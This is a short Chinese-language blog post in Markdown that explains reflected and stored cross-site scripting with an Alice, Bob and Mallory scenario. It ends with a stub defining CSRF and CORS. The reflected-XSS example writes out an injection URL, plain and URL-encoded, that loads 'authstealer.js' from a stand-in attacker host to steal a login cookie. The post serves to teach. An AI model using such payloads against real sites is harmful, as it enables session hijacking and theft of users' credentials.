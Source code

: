 ```yaml
---
layout: post
title: XSS
date: 2018-11-20 09:42:31
categories: frontend
share: y
excerpt_separator: <!--more-->
---
```



<!--more-->

## Cross-site scripting(XSS)

分类：
 - non-persistent
 - persistent

### Non-persistent(reflected)

比较常见的是在HTTP查询参数里面，服务器脚本立马解析并展示结果到客户端，而没有经过合适的sanitize.

举个例子：

1. Alice经常访问Bob的网站，该网站允许Alice通过用户名和密码进行登录，并且存储敏感的数据。当用户登录的时候，浏览器会存储一个Authorization Cookie。
2. Mallory发现Bob的网站有个reflected XSS 漏洞——`http://bobssite.org?q=her search term`, 当她提交一个异常请求`http://bobssite.org?q=<script type='text/javascript'>alert('xss');</script>`,返回的结果是`<script type='text/javascript'>alert('xss');</script> not found`,并且弹出一个alert框。
3. 所以她决定提交异常的请求，`http://bobssite.org?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`,她可以通过ASCII编码，使肉眼不能立马识别`http://bobssite.org?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`
3. 她发送邮件给Alice,链接说“Check out some cute puppies!”，Alice点击该链接，跳转到Bob的网站，返回说“puppies not found”，然后脚本开始运行，脚本在Alice的浏览器上运行，就好像它 originated from Bob的网站，偷取Alice的Authorization Cookie，然后发送到Mallory的服务器。
4. Mallory利用Alice的认证信息，到Bob的网站假装是Alice进行各种操作。

### Persistent(or stored)

举个例子：一个约会网站，可以浏览其他member的profile，为了隐私保护，网站隐藏了每个人的真实姓名和邮箱，只有当member登录了之后才能看到自己的真实姓名和邮箱。Mallory作为attacker，她写了一个脚本，该脚本会在其他人访问自己的profile时运行，获取到真实的姓名和邮箱后发送给自己。比如说，对于问题“描述你理想的第一次约会”，Mallory给出了一个简单的回答，在后面附加了自己的那段脚本代码。Bob,访问Mallory的profile，上面有她关于第一次约会的回答，脚本就会自动运行，然后copy Bob的真实姓名和邮箱。

## CSRF & CORS

1. CSRF - Cross-Site Request Forgery - 跨站请求伪造

2. CORS - Cross Origin Resourse-Sharing - 跨站资源共享